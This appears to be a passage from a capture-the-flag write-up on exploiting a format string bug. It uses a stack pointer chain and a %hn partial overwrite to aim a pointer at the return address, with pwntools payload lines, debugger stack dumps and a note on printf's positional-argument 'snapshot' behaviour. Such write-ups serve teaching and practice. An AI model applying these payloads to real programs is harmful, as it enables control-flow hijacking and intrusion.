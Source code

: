 As you see in the stack, there is a juicy pattern on `0x7fffffffdb98`. In this case, A=`0x7fffffffdb98`, B=`0x7fffffffdf14`. We want to modify B to `&return_addr`, which is `0x7fffffffdb78` in this case.Therefore, our payload should be like 
```
%{val}c%{idx}$hn
```

We use `%hn` to partially overwrite the last two bytes of B to change it from `0xdf14` to `0xdb78`. Also, the `val` in the payload should be the `0xdb78` and the idx is 13 since there are 5 parameters in registers after `fmtstr` and 7 before our target:
```python
val = 0xdb78
idx = 13
p.sendline(f"%{val}c%{idx}$hn".ljust(0x40,'\0').encode())
```

The stack after we overwrite the target would be like:

```
────────[ STACK ]──────────
00:0000│ rsp 0x7fffffffdb60 ◂— 0x1000
01:0008│     0x7fffffffdb68 ◂— 0xe9053e9b99676100
02:0010│ rbp 0x7fffffffdb70 ◂— 0x1
03:0018│     0x7fffffffdb78 —▸ 0x7ffff7daad90 (__libc_start_call_main+128) ◂— mov edi, eax
04:0020│     0x7fffffffdb80 ◂— 0x0
05:0028│     0x7fffffffdb88 —▸ 0x555555555159 ◂— push rbp
06:0030│     0x7fffffffdb90 ◂— 0x1ffffdc70
07:0038│     0x7fffffffdb98 —▸ 0x7fffffffdc88 —▸ 0x7fffffffdb78 —▸ 0x7ffff7daad90 (__libc_start_call_main+128) ◂— mov edi, eax
```

As you see, we successfully change the target to `&ret_address`. However, we can't change the value of the return address(step 3) at the same time.

You can try the following payload to check the data on `0x7fffffffdc88`:
```python
val = 0xdb78
idx = 13
idx2 = 43
p.send(f"%{val}c%{idx}$hn%{idx2}$p".ljust(0x40,'\0').encode())
```

The above payload would show you the original data on `0x7fffffffdc88` rather than the new address we left by `%13$n`. 


The following explanation comes from Kyle Zeng, who did read the source code of `printf`. I am too lazy to read that so I just quote his explanation and use the skill.

> That's because in the `printf` function, when encountering the first valid `$`,  the program would take a "snapshot" of current stack data and then use these data later.

That makes much sense: at the first `$` symbol, the program records the data on the stack and at that time we didn't modify the target data. Also, according to this explanation, we can somehow bypass it: if we still keep our payload in limited length(for this challenge, 0x40), we can try not to use `$` in the first place in our payload to modify the pointer before the function takes the "snapshot".
